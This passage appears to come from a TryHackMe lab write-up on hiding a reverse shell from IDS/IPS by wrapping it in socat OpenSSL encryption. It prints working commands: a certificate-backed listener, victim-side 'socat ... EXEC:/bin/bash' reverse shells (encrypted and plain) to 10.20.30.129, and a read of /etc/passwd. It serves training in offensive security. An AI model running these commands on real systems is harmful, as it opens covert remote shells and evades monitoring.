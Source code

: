 Let’s demonstrate this. On the attacker system, we carried out the following:

```shell
pentester@TryHackMe$ openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt
Generating a RSA private key
........................++++
......++++
writing new private key to 'thm-reverse.key'
-----
pentester@TryHackMe$ ls
thm-reverse.crt  thm-reverse.key
pentester@TryHackMe$ cat thm-reverse.key thm-reverse.crt > thm-reverse.pem
pentester@TryHackMe$ socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT
2022/02/24 13:39:07 socat[1208] W ioctl(6, IOCTL_VM_SOCKETS_GET_LOCAL_CID, ...): Inappropriate ioctl for device
2022/02/24 13:39:07 socat[1208] N listening on AF=2 0.0.0.0:4443
        
```

As we have a listener on the attacker system, we switched to the victim machine, and we executed the following:

```shell
pentester@target$ socat OPENSSL:10.20.30.129:4443,verify=0 EXEC:/bin/bash
```

Back to the attacker system, let’s run `cat /etc/passwd`:

```shell
pentester@TryHackMe$ socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT
[...]
2022/02/24 15:54:28 socat[7620] N starting data transfer loop with FDs [7,7] and [1,1]

cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
[...]
        
```

However, if the IDS/IPS inspects the traffic, all the packet data will be encrypted. In other  words, the IPS will be completely oblivious to exchange traffic and  commands such as `cat /etc/passwd`. The screenshot below shows how things appear on the wire when captured using Wireshark. The highlighted packet contains `cat /etc/passwd`; however, it is encrypted.

![img](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/3352df7b863f48cfaf0aee8f308e95a9.png)

As you can tell, it is not possible to make sense of the commands or  data being exchanged. To better see the value of the added layer of  encryption, we will compare this with an equivalent `socat` connection that does not use encryption.

1. On the attacker’s system, we run `socat -d -d TCP-LISTEN:4443,fork STDOUT`.
2. On the victim’s machine, we run `socat TCP:10.20.30.129:4443 EXEC:/bin/bash`.
3. Back on the attacker’s system, we type `cat /etc/passwd` and hit Enter/Return.
